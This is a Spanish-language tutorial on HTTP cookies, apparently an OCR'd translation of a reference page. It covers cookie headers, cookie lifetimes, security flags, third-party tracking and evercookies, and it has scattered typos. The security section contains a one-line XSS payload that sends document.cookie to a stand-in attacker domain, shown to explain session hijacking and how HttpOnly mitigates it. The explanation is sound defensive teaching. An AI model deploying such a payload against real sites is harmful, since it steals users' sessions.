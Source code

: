 # HTTP Cookies

Una HTTP Cookie es una pequeña pieza de datos que un servidor enví al usuario del navigador, que puede guardarlo y enviarrlo de vuelta junto con la siguiente petición del mismo servidor


Las cookies son usadas principalmente para:

* Gestionar las sesiones
* Personalización (preferencias de usuario)
* Analizar el comportamiento del usuario




## Creating cookiesEDIT

Cuando recibe una solicitud HTTP, un servidor puede enviar un encabezamiento Set-Cookie con la respuesta. La Cookie es almacenada por el navegador y luego se envía el valor con todas las respuestas hechas por el mismo servidor. 

### The Set-Cookie and Cookie headers
El encabezamiento de respuesta HTTP Set-Cookie es utilizado para enviar cookies desde el servidor hasta el usuario. Una cookie simple puede ser así:
                                                     
_Set-Cookie: <cookie-name>=<cookie-value>_

El servidor le cuenta al cliente para guardar una cookie. La respuesta enviada al navegador puede contener el encabezamiento Set-Cookie y el navegador guardará la cookie.

HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[page content]

Ahora con todas las nuevas peticiones al servidor, el navegador enviará de buelto todas las cookies almacenadas anteriormente.

GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry

### Session cookies

La cookie simple creada anteriormente es una cookie de sesión: Se removerá cuando el cliente se desconecte, duran solo lo que dura la sesión. Tenga en cuenta, sin embargo, que los navegadores web a menudo tienen permitido la restauración de la sesión, lo que hará que la mayoría de las cookies de sesión permanezcan en realidad como si el navegador no se cerró.

### Permanent cookies

En vez de expirar cuando se termina la cesión del cliente, estas cookies lo hacen en una determinada fecha o después de un periodo de tiempo específico (Expires) o (Max-Age)

Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;

### Secure and HttpOnly cookies

Una cookie segura solo se enviará al servidor cuando la petición está hecha usando SSL y HHTPS. Sin embargo, tenga en cuenta que la información confidencial o sensible no debe ser almacenada o transmitida en cookies HTTP como todo el mecanismo es inherentemente inseguro y esta flag no ofrecerá ningún tipo de cifrado o seguridad adicional

Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly

### JavaScript access using Document.cookies
Las nuevas cookies también pueden ser creadas por Document.cookie y también existen cookies que pueden ser accedidas desde Javascript

document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
// logs "yummy_cookie=choco; tasty_cookie=strawberry"

## Security

### Session hijacking and XSS

Las cookies se utilizan a menudo en aplicaciones web para identificar a un usuario y su sesión autenticada. Así que el robo de una cookie de una aplicación web puede dar lugar a secuestrar la sesión del usuario autenticado. Una de las maneras más comunes de robar cookies incluye el uso de Social Engineering o utilizando un XSS vulnerability en la aplicación

(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
The HttpOnly cookie attribute can help to mitigate this attack by preventing access to cookie value through JavaScript.

### Tracking and privacy
## Third-party cookies
Las cooki
Las cookies tienen un dominio asociado a ellos. Si este dominio es el mismo que el dominio de la página en la que se encuentra, se dice que las cookies son una cookie de origen . Si el dominio es diferente, se dice que es una cookie de terceros. Mientras que las cookies de origen sólo se envían al servidor de configuración de ellas mismas, una página web puede contener imágenes u otros componentes almacenados en los servidores de otros dominios (como banners publicitarios). Las cookies que se envían a través de estos componentes de terceros se llaman cookies de terceros y se utilizan principalmente para la publicidad y el seguimiento a través de la web.

### Do-Not-Track

No existen requisitos legales o tecnológicas para su uso, pero la cabecera DNT se pueden utilizar para indicar que una aplicación web debe desactivar o bien su seguimiento o el seguimiento de los usuarios a través del sitio. 

### Zombie cookies and Evercookies

Un enfoque más radical a las cookies son las cookies zombi o "evercookies", que se recrean después de su eliminación y son intencionadamente difícil de eliminar para siempre. Están utilizando la API de almacenamiento Web , Flash Local Shared Objects y otras técnicas para recrear a sí mismos cada vez que se detecta la ausencia de la cookie.
